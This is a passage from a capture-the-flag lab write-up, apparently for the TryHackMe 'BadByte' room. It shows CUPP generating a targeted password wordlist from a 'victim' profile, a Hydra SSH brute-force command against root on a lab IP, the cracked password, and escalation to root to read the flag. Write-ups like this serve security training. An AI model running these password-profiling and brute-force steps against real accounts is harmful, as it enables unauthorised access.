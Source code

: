 ```bash


> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: 
> Company name: 


> Do you want to add some key words about the victim? Y/[N]: Y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: G00dP@$sw0rd20  
> Do you want to add special chars at the end of words? Y/[N]: Y
> Do you want to add some random numbers at the end of words? Y/[N]:Y
> Leet mode? (i.e. leet = 1337) Y/[N]: Y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to good.txt, counting 5188 words.
[+] Now load your pistolero with good.txt and shoot! Good luck!

```

## Hydra

Let's try if this password is reused (slightly modified) for root access on [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/BadByte]
└─$ hydra -l root -P good.txt 10.10.152.27 ssh -v   

'G00dP@$sw0rd2021'
```

And we get the password, now we return to `cth` shell and `sudo su root'
and we cat the last flag .

